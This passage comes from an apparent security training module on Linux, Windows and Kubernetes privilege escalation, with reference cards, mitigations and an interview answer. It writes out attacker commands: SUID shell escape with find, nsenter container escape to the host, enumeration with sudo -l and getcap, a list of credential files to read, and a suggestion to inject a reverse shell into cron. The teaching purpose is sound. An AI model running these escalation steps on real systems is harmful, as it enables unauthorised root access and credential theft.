- `Adversarial Thinking` (SEC-140) - privesc is core adversarial thinking scenario
- `Trust Boundary Analysis` (SEC-141) - privilege boundaries as trust boundaries
- `Assume-Breach Reasoning` (SEC-142) - privesc assumed after initial access

---

### 📌 Quick Reference Card

```
┌──────────────────────────────────────────────────────────┐
│ LINUX         │ sudo -l → NOPASSWD + interactive = root  │
│ VECTORS       │ SUID: find / -perm -u=s → GTFObins       │
│               │ Writable cron (root cron, any user writes)│
│               │ Capabilities: getcap -r / → cap_setuid   │
├───────────────┼──────────────────────────────────────────┤
│ WINDOWS       │ Token impersonation (SeImpersonatePriv)  │
│ VECTORS       │ DLL hijacking (writable service dir)     │
│               │ Unquoted service path (space in path)    │
│               │ AlwaysInstallElevated (MSI as SYSTEM)    │
├───────────────┼──────────────────────────────────────────┤
│ CONTAINER     │ privileged: true → nsenter to host       │
│ VECTORS       │ hostPID: true → view/kill host processes │
│               │ hostPath: / → write host filesystem      │
├───────────────┼──────────────────────────────────────────┤
│ TOOLS         │ LinPEAS, WinPEAS: automated enumeration  │
│               │ GTFObins: Linux binary escape techniques │
│               │ BloodHound: AD attack paths              │
├───────────────┼──────────────────────────────────────────┤
│ MITIGATIONS   │ Least privilege (no sudo, no SUID custom)│
│               │ PSS Restricted (Kubernetes)              │
│               │ AppArmor + seccomp profiles              │
│               │ Quarterly LinPEAS runs (defensive)       │
└──────────────────────────────────────────────────────────┘
```

---

### 💎 Transferable Wisdom

**Reusable Engineering Principle:**
"The principle of least privilege must be active, not assumed."
Most privilege escalation vectors share one root cause: someone added a broad permission
("sudo vim", "privileged: true", "run as root") for a temporary convenience purpose,
and the configuration was never reviewed or removed.
The "temporary" permission became permanent through inertia.
This is a direct failure of configuration lifecycle management.
The engineering discipline: every permission grant has an expiration or review date.
"We need www-data to be able to restart nginx" → implementation: sudo rule for exactly that command.
NOT: sudo vim (broad), NOT: add www-data to root group (very broad), NOT: run nginx as root.
The correct solution requires 10 extra minutes of configuration.
The easy solution: takes 30 seconds and creates a privilege escalation vector.
Security investment: making least-privilege configurations easy to implement.
Kubernetes operators: role template libraries with Restricted profile as the default.
Linux systems: packer AMI templates with no SUID custom binaries, audited sudo rules.
Windows systems: managed identities (no long-lived credentials, no SeImpersonatePrivilege
for managed services).
Platform teams: the default configuration should be secure.
Individual engineers: should have to explicitly opt OUT of security, not opt in.

---

### 💡 The Surprising Truth

The most powerful privilege escalation technique is not a kernel exploit. It's reading files.

After initial access on Linux, attackers with limited user access routinely look for:
- `.git/config` files (contain remote URLs and sometimes embedded credentials)
- `.env` files (environment variables with passwords, API keys)
- `config/database.yml`, `application.properties` (database connection strings)
- `/proc/[PID]/environ` (environment variables of running processes)
- `/proc/[PID]/fd/` (file descriptors - can read files opened by other processes)
- `~/.ssh/id_rsa` (SSH private keys - lateral movement to other servers)
- `/var/log/auth.log` (may contain passwords typed incorrectly into the username field)

These are not vulnerabilities. They are world-readable or user-readable files.

The "privilege escalation" is reading a file → finding a privileged credential →
using that credential to authenticate as a more privileged account.

This is horizontal privilege escalation (user → different user) leading to
vertical escalation (that user has admin access).

The example: a limited web shell finds `/app/.env` containing `DB_PASSWORD=...`
and `ADMIN_API_KEY=...`. These credentials are used to authenticate to the
database as a privileged user and to the admin API directly.
No exploit required. No kernel CVE needed.
Just reading a file the developer accidentally left world-readable.

The mitigation that prevents this type of "escalation":
(1) Secrets management (Vault, AWS Secrets Manager) → credentials NOT in files.
(2) File permissions: application config files: mode 640 or 600, owned by the service user.
(3) Principle of least privilege for file access: web server reads only the files it needs.
(4) Secret scanning in CI/CD (Gitleaks, git-secrets) → credentials don't reach disk at all.

The lesson: privilege escalation defense is not only about patching sudo and removing SUID.
It's about ensuring that privileged credentials are never accessible to limited-privilege accounts.

---

### ✅ Mastery Checklist

**You've mastered this when you can:**
1. **LIST** the primary Linux privilege escalation vectors: SUID binaries (GTFObins),
   sudo misconfigurations (NOPASSWD + interactive tool), writable cron scripts,
   Linux capabilities (cap_setuid), and kernel exploits.
2. **LIST** the primary Windows privilege escalation vectors: token impersonation
   (SeImpersonatePrivilege → PrintSpoofer), DLL hijacking, unquoted service paths,
   AlwaysInstallElevated.
3. **DESCRIBE** container escape via privileged containers: `privileged: true` →
   `nsenter --target 1 --mount -- /bin/bash` → root on host node.
4. **STATE** how to find these vectors defensively: `sudo -l`, `find / -perm -u=s`,
   `getcap -r /`, LinPEAS, `kubectl get pods -o json | grep privileged`.
5. **EXPLAIN** the PSS Restricted mitigations for container escape: `privileged: false`,
   no hostPID/hostNetwork/hostPath, `allowPrivilegeEscalation: false`, drop ALL capabilities,
   seccomp RuntimeDefault.

---

### 🎯 Interview Deep-Dive

**Q: Walk me through how an attacker would escalate privileges after getting a web shell
as www-data on a Linux server. What are the key vectors, and how would you defend against them?**

*Why they ask:* Tests depth of security knowledge for offensive/defensive roles.
Common in security engineering, red team, and senior backend roles at security-conscious companies.

*Strong answer covers:*
- Attacker's enumeration: `sudo -l` (check for NOPASSWD rules), `find / -perm -u=s` (SUID binaries),
  check writable cron scripts, `getcap -r /` (dangerous capabilities), `cat /etc/crontab`.
  Also: look for credential files (`.env`, database configs, SSH keys).
- Key exploit vectors: sudo NOPASSWD + interactive tool (vim, python3, find) → GTFObins shows shell escape.
  SUID binary with shell escape → `find . -exec /bin/sh -p \;`. Writable cron script run by root →
  inject reverse shell command, wait for cron. cap_setuid on unexpected binary → `os.setuid(0)`.
- Container variant: if compromised process is in a Kubernetes pod → check `cat /proc/1/status | grep CapEff`
  for all capabilities (privileged container) → `nsenter --target 1 --mount -- /bin/bash` → root on host.
- Defense: least privilege sudo rules (only specific commands, no interactive tools). Remove all custom SUID
  binaries (use sudo or capabilities instead). Cron scripts: root-owned, mode 644. Kubernetes: PSS Restricted
  profile (`privileged: false`, `allowPrivilegeEscalation: false`, drop ALL capabilities, seccomp RuntimeDefault).
  Quarterly LinPEAS runs on production-equivalent systems to find vectors before attackers do.
  Secrets management: credentials in Vault, not in `.env` files on disk.